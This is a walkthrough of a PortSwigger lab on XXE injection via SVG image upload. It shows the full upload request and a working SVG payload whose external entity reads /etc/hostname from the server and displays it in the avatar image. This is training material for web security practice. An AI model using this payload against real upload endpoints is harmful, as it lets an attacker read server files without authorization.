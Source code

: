 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1470aab9-6096-4a00-9523-fd7a1a3406ec)

## Overview :

#### XXE attacks via file upload

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like `DOCX` and image formats like `SVG`.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. **Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities**. 

## Solution :

The image upload functionality is vulnerable to XXE attack.

Since **SVG image formats are XML based, we can try to upload an SVG image & modify the content of the xml to retreive `/etc/passwd`.**

First step is to download any SVG image from the internet - [Link](https://www.svgrepo.com/download/4733/samples.svg)

Upload the image in the comment section.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7f4eed80-8cc9-4725-b0e7-d6e4850f920c)

The request sent is as follows,

```http
POST /post/comment HTTP/2
Host: 0af3001a04d49cc680f98fe600360054.web-security-academy.net
Cookie: session=8CMbZt7nqpnKxX5BWeqFKSaHuf8Y2fep
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------411093510810586854491817040917
Content-Length: 4197
Origin: https://0af3001a04d49cc680f98fe600360054.web-security-academy.net
Referer: https://0af3001a04d49cc680f98fe600360054.web-security-academy.net/post?postId=3
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="csrf"

Pug71fV4fPRd07n2oBMA6jMlMZoTS16V
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="postId"

3
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="comment"

This is for testing XXE via SVG file upload
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="name"

shebu
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="avatar"; filename="samples-svgrepo-com.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="iso-8859-1"?>
<!-- Uploaded to: SVG Repo, www.svgrepo.com, Generator: SVG Repo Mixer Tools -->
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" id="Capa_1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" 
	 viewBox="0 0 297.5 297.5" xml:space="preserve">
<g id="XMLID_40_">
	<g> 
		<path style="fill:#ACBFC7;" d="M277.71,158.52v85.7H19.79v-85.7h6.53v40.54c0,16.98,13.81,30.78,30.78,30.78
			s30.78-13.8,30.78-30.78v-40.54h30.09v40.54c0,16.98,13.81,30.78,30.78,30.78c16.98,0,30.78-13.8,30.78-30.78v-40.54h30.1v40.54
			c0,16.98,13.8,30.78,30.78,30.78c16.97,0,30.78-13.8,30.78-30.78v-40.54H277.71z"/>
		<rect x="218.66" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="229.17" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<rect x="137.51" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<rect x="127.01" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="35.35" y="53.28" style="fill:#CDD9DD;" width="43.49" height="10.53"/>
		<rect x="45.86" y="83.35" style="fill:#CDD9DD;" width="22.48" height="23.92"/>
		<path style="fill:#FF4855;" d="M251.65,126.81v72.25c0,6.2-5.05,11.24-11.24,11.24c-6.2,0-11.24-5.04-11.24-11.24v-72.25H251.65z"
			/>
		<path style="fill:#D61616;" d="M68.34,126.81v72.25c0,6.2-5.04,11.24-11.24,11.24s-11.24-5.04-11.24-11.24v-72.25H68.34z"/>
		<path style="fill:#FFD63F;" d="M159.99,126.81v72.25c0,6.2-5.04,11.24-11.24,11.24s-11.24-5.04-11.24-11.24v-72.25H159.99z"/>
		<path d="M297.25,148.75v105.24c0,5.4-4.37,9.77-9.77,9.77H10.02c-5.39,0-9.77-4.37-9.77-9.77V148.75c0-5.4,4.38-9.77,9.77-9.77
			h16.3V83.35h-0.74c-5.39,0-9.77-4.38-9.77-9.77V43.51c0-5.4,4.38-9.77,9.77-9.77h63.03c5.4,0,9.77,4.37,9.77,9.77v30.07
			c0,5.39-4.37,9.77-9.77,9.77h-0.73v55.63h30.09V83.35h-0.73c-5.4,0-9.77-4.38-9.77-9.77V43.51c0-5.4,4.37-9.77,9.77-9.77h63.03
			c5.39,0,9.77,4.37,9.77,9.77v30.07c0,5.39-4.38,9.77-9.77,9.77h-0.74v55.63h30.1V83.35h-0.74c-5.39,0-9.77-4.38-9.77-9.77V43.51
			c0-5.4,4.38-9.77,9.77-9.77h63.03c5.4,0,9.77,4.37,9.77,9.77v30.07c0,5.39-4.37,9.77-9.77,9.77h-0.73v55.63h16.29
			C292.88,138.98,297.25,143.35,297.25,148.75z M277.71,244.22v-85.7h-6.52v40.54c0,16.98-13.81,30.78-30.78,30.78
			c-16.98,0-30.78-13.8-30.78-30.78v-40.54h-30.1v40.54c0,16.98-13.8,30.78-30.78,30.78c-16.97,0-30.78-13.8-30.78-30.78v-40.54
			H87.88v40.54c0,16.98-13.81,30.78-30.78,30.78s-30.78-13.8-30.78-30.78v-40.54h-6.53v85.7H277.71z M262.15,63.81V53.28h-43.49
			v10.53H262.15z M251.65,199.06v-72.25h-22.48v72.25c0,6.2,5.04,11.24,11.24,11.24C246.6,210.3,251.65,205.26,251.65,199.06z
			 M251.65,107.27V83.35h-22.48v23.92H251.65z M170.5,63.81V53.28h-43.49v10.53H170.5z M159.99,199.06v-72.25h-22.48v72.25
			c0,6.2,5.04,11.24,11.24,11.24S159.99,205.26,159.99,199.06z M159.99,107.27V83.35h-22.48v23.92H159.99z M78.84,63.81V53.28H35.35
			v10.53H78.84z M68.34,199.06v-72.25H45.86v72.25c0,6.2,5.04,11.24,11.24,11.24S68.34,205.26,68.34,199.06z M68.34,107.27V83.35
			H45.86v23.92H68.34z"/>
	</g>
	<g>
	</g>
</g>
</svg>
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="email"

shebuheckur@shebu.com
-----------------------------411093510810586854491817040917
Content-Disposition: form-data; name="website"

https://sh3bu.gitihub.io
-----------------------------411093510810586854491817040917--
```
In the above request remove all the <svg> tag contents and replace it with this [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

We get a `302 Redirect` which means the file upload is successful.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0320f2b4-b80e-4f1d-9bea-74f94330091e)

We can see the image has been uploaded as avatar

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/efd6ba9d-b8c6-42ad-982b-beb3eb56416f)


Click on the image & open it in new tab to view the o/p of /etc/hostname command.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/09aa29ba-e434-4778-8709-865e48ffa086)

Submit the name of the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0bc2f8f6-659c-4dba-973c-fd54f8739d32)






